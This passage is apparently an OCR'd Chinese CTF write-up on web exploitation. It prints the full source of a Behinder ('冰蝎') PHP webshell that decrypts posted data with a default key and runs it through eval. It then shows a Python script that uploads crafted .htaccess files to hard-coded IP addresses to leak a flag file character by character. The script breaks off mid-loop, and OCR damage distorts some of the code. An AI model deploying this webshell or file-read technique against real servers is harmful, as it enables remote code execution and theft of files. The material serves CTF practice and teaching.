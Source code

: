 冰蝎马如下

```
&lt;?php
@errorreporting(0);
session_start();
$key = ”e45e329feb5d925b”; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
$_SESSION[‘k’] = $key;
session_write_close();
$post = file_get_contents(“php: //input”);
    if (!extension_loaded(‘openssl’)) `{`
        $t = ”base64“ . ”decode”;
        $post = $t($post . ””);
        for ($i = 0;$i &lt; strlen($post);$i++) `{`
            $post[$i] = $post[$i] ^ $key[$i + 1 &amp; 15];
        `}`
    `}` else `{`
        $post = openssl_decrypt($post, "AES128", $key);
    `}`
    $arr = explode('|', $post);
    $func = $arr[0];
    $params = $arr[1];
    class C `{`
        public function __invoke($p) `{`
            eval($p . "");
        `}`
    `}`
    @call_user_func(new C(), $params);
?&gt;
```



## 方法3：NulL大佬的脚本

&lt;If “file(‘/flag’)=~ /”’flag`{`xxxx”’/”&gt;<br>
ErrorDocument 404 “wupco”<br>
&lt;/If&gt;

原理：匹配不到就返回404且有wupco这个字符串，直接脚本逐位爆破

```
import requests
import string
import hashlib
ip = requests.get('http://118.24.185.108/ip.php').text
print(ip)
def check(a):
    htaccess = '''
    &lt;If "file('/flag')=~ /'''+a+'''/"&gt;
    ErrorDocument 404 "wupco"
    &lt;/If&gt;
    '''
    resp = requests.post("http://122.112.248.222:20003/index.php?id=69660",data=`{`'submit': 'submit'`}`, files=`{`'file': ('.htaccess',htaccess)`}` )
    a = requests.get("http://122.112.248.222:20003/upload/"+ip+"/a").text
    if "wupco" not in a:
        return False
    else:
        return True
flag = "flag`{`BN"
c = string.ascii_letters + string.digits + "\`{`\`}`"
for j in range(32):
    for i in c:
        print("checking: "+ flag+i)
        if check(flag+i):
```